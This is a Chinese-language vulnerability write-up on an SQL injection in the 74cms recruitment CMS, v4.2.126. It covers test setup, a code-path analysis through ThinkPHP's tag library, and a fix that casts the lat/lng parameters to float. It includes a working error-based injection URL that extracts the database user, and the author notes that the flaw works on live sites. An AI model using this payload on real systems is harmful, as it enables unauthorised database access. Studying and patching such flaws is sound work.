# 74cms v4.2.126-通杀 sql 注入

> 原文：[http://book.iwonder.run/0day/74cms/新版 74cms v4.2.126-通杀 sql 注入.html](http://book.iwonder.run/0day/74cms/新版 74cms v4.2.126-通杀 sql 注入.html)

# 0x00 前言

厂商：74cms
下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html)

关于版本：
新版的 74cms 采用了 tp3.2.3 重构了，所以可知底层是 tp，74cms 新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

# 0x01 74cms 升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件 74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 [http://baidu.com](http://baidu.com) 即可

# 0x02 数据填充不然没得测试

注：这个漏洞需要在有职位数据的情况下，才能利用。正式环境中，因为都是有数据的所以直接注入即可。不过因为我们是测试环境所以需要我们自己添加一些数据来保证网站的正常运行
2

## 0x02.1 注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了
注册完成以后将此商家用户登录前台

登录完毕以后跳转到：[http://74cms.test/index.php?m=&c=company&a=com_info](http://74cms.test/index.php?m=&c=company&a=com_info)
设置商家信息

然后跳转到：[http://74cms.test/index.php?m=&c=Company&a=jobs_add](http://74cms.test/index.php?m=&c=Company&a=jobs_add)
随便发布一条工作消息即可

## 0x02.2 注册普通账号方便测试

一样的前台注册需要短信，我穷，付不起短信费

注册完成以后登录前台即可
注：一定要登录，因为数据量太少，不登录，过不去验证

# 0x03 sql 漏洞演示



然后输入地址：
[http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038'](http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038%27)
注：x，y 不超过 1 即可
详情页 new BMap.Point 搜索出来的值就是 x，y 值

可能上面的内容有人会觉得奇怪，就是这个 url 实战中你是怎么获得的？其实你可以这样。


这样的话只要点击完以后有数据 你在 lat lng 字段都可以正常的进行注入

```
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a 
```


剩下的自己注 :)

# 0x04 漏洞原理

老样子一步步分析吧。
先从地址开始分析
地址：[http://74cms.test/index.php?m=&c=jobs&a=jobs_list](http://74cms.test/index.php?m=&c=jobs&a=jobs_list)
典型的 mvc 结构
m 层可以看到为空，我们可以打开目录
74cms\upload\Application\Common\Conf\config.php 查看 DEFAULT_MODULE 参数

因此可以确定
M = home
C = jobs
A = jobs_list

翻译一下的意思就是 Home 目录 下面的 jobs 文件里面的 jobs_list 方法
跟进去


跟进来以后，发现我们的 lng 参数并没有在 jobs_list 方法，但是在外部的时候的却是这个类。
这是因为 74cms 使用了 thinkphp 的 tag 也就是标签库驱动 。
所以我们在这里并没有看到相关的代码快，因为他是直接嵌了 V 层中执行也就是我们常说的视图层。
想了解这一块的
上官网下载 thinkphp3.2 手册 搜索 tag

即可获得详细信息

跟进视图层进行查看


找到了视图文件：
74cms\upload\Application\Home\View\default\Jobs\jobs_list.html


根据图中的条件可得知具体目录名为
74cms\upload\Application\Common\qscmstag\jobs_listTag.class.php


说明我们的猜想是没有错的。

为了不浪费大家的时间，我就尽量选重点讲，避免浪费大家时间!

这里我们需要了解一下。

首先是我们可外部控制的值




所以最终我们符合条件的内容都会赋值为$this->params

知道这个接口，我们继续注入点，因为前面的东西有太多和我们的这个注入无关的东西了所以我们忽略掉

我上图中还圈出来的第二个圈圈，可以看到 $this->params[lat] 与 $this->params[lng] 赋值并且没有过滤给了$this->field 而大部分的 php 框架在 field 可控制的情况下大部分都是有注入问题的，所以这里我基本可以通过经验确定，只要带入了进行查询那就是一个注入漏洞。

这里的构造方法知道这些即可，其他的都不是很重要
这里我们打印一下，最终处理的内容


好了知道这些前置条件以后我们继续。

在执行完这个构造函数以后，还会自动的执行 run() 方法





# 0x05 修复方法


```
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range"; 
```

强转为浮点型，防止注入

## 四、参考链接

> [https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2](https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2)

